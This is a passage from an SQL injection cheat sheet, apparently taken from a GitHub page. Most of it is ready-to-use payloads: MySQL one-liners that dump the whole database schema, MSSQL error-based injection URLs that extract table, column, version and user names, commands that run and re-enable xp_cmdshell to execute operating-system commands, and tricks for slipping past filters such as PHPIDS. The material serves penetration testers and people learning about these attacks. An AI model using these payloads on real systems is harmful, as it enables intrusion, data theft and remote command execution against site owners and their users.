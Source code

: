 7. One liner to output all corresponding databse with table and columns

```
(select group_concat(table_schema,0x3a,table_name,0x3a,column_name) from information_schema.columns)
(select group_concat(table_schema,0x3a,table_name,0x3a,column_name) from information_schema.columns where table_schema=database())

concat(table_schema,0x3a,table_name,0x3a,column_name)               from information_schema.columns where table_schema=database()
```

### [MSSQL Enumeration: Error based](https://www.exploit-db.com/papers/12975/)

```
Enumerate column and table name
http://www.example.com/page.asp?id=1' HAVING 1=1--
Error message: Column 'news.news_id' is invalid                 < table_name.column

http://www.example.com/page.asp?id=1' GROUP BY news.news_id HAVING 1=1--
Error message: Column 'news.news_author' is invalid           < table_name.column2

http://www.example.com/page.asp?id=1' GROUP BY news.news_id,news.news_author HAVING 1=1--
Error message: Column 'news.news_detail' is invalid             < table_name.column3

Until no error

Enumerate version, db name, users:
http://www.example.com/page.asp?id=1+and+1=convert(int,@@version)--
http://www.example.com/page.asp?id=1+and+1=convert(int,db_name())--
http://www.example.com/page.asp?id=1+and+1=convert(int,user_name())--       << Is the user running as dbo or sa?

xp_cmdshell << if running as database admin
http://www.example.com/news.asp?id=1; exec master.dbo.xp_cmdshell 'command'
'; exec master.dbo.xp_cmdshell 'command'

On MSSQL 2005 you may need to reactivate xp_cmdshell first as it's disabled by default:
EXEC sp_configure 'show advanced options', 1;--
RECONFIGURE;-- 
EXEC sp_configure 'xp_cmdshell', 1;-- 
RECONFIGURE;--  

On MSSQL 2000:
EXEC sp_addextendedproc 'xp_anyname', 'xp_log70.dll';--
```

## SQL filter bypass
[Beyond SQLi: Obfuscate and Bypass](https://www.exploit-db.com/papers/17934/)

```
AND, OR operators
AND = &&
OR = ||

Comment operator << Mysql
--  	
#  
/**/  

Regular expression
It is common that PHPIDS will block operators such as =, ', (), 
table_name = 'users' X
table_name between 'a' and 'z' X
```